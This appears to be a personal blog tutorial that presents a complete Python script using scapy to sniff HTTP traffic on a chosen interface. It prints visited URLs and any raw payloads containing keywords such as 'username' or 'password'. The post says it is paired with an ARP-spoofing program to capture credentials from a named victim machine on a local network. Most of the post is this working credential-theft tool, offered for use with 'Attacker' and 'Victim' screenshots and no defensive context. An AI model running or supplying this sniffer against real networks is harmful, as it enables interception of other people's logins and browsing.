 ```yaml
---
title: A Credential/Url sniffer program
date: 2021-06-28 09:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A program to sniff Credentials.
---
```



<p align="center">
 <img src="https://i.kym-cdn.com/photos/images/facebook/001/651/265/287.jpg">
</p>

## This is a python script that sniffs for URL's/Login creds on a specific interface. When coupled with the previous ARPSpoof program this program can be used to remotely sniff traffic between the ARPSpoofed victims.

**In this example we ARP poison/spoof the connection between the target Windows system(192.168.0.117) and the gateway router(192.168.0.1) to remotely sniff any creds/urls visited by the victim.**

* Used the `scapy_http` module to interact with HTTP layers and filter them as needed.
* Implemented `scapy.sniff()` function to sniff traffic and filter with *BPF's(Berkley Packet Filters)*.
* Byte object conversion to string using `str()` and `decode()` functions for cross-compatibility with python3.



### Code:

```python
#!/usr/bin/env python


import argparse 
import scapy.all as scapy
from scapy.layers import http
# pip install scapy_http

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-i", "--Interface", dest="interface", help="Host Interface to sniff on")
    options = parser.parse_args()
    if not options.interface:
        # code to handle error
        parser.error("[-] Please specify a valid Host Interface, use --help for info.")
    return options

def sniff(interface):
	# store --> storing packets in memory
	# prn --> callback function
	# filter --> filter according to BPF like TCP/port 80/ICMP
	scapy.sniff(iface=interface , store=False, prn=process_sniffed_packet)


def get_url(packet):
	return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_login_info(packet):
	# Filter for raw content
		if packet.haslayer(scapy.Raw):
			load = str(packet[scapy.Raw].load)
			keywords = ["username", "user", "login", "password", "pass", "uname"]
			for keyword in keywords:
				if keyword in load:
					return load

def get_host_info(packet):
		if packet.haslayer(scapy.IP):
			return str(packet[scapy.IP].src)

					

def process_sniffed_packet(packet):
	# Filter based on http layer
	if packet.haslayer(http.HTTPRequest):
		url = get_url(packet)
		print("[+] Captured Urls: " + url.decode())
		login_info = get_login_info(packet)
		if login_info:
			host_info = get_host_info(packet)
			print("\n[+] Packet found from host: " + host_info)
			print("\n[+!] Possible Login Data: " + str(login_info) + "\n------------------------\n")
		

print("""
                                                        
|              o         ,---.     o,---.,---.          
|    ,---.,---..,---.    `---.,---..|__. |__. ,---.,---.
|    |   ||   |||   |        ||   |||    |    |---'|    
`---'`---'`---|``   '    `---'`   '``    `    `---'`    
          `---'                                         
                                                                                                
                                                         """)

options = get_arguments()
sniff(options.interface)
```

### Output:

__Attacker:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Login_Sniffer/sniff.png)

__Victim:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Login_Sniffer/sniff2.png)
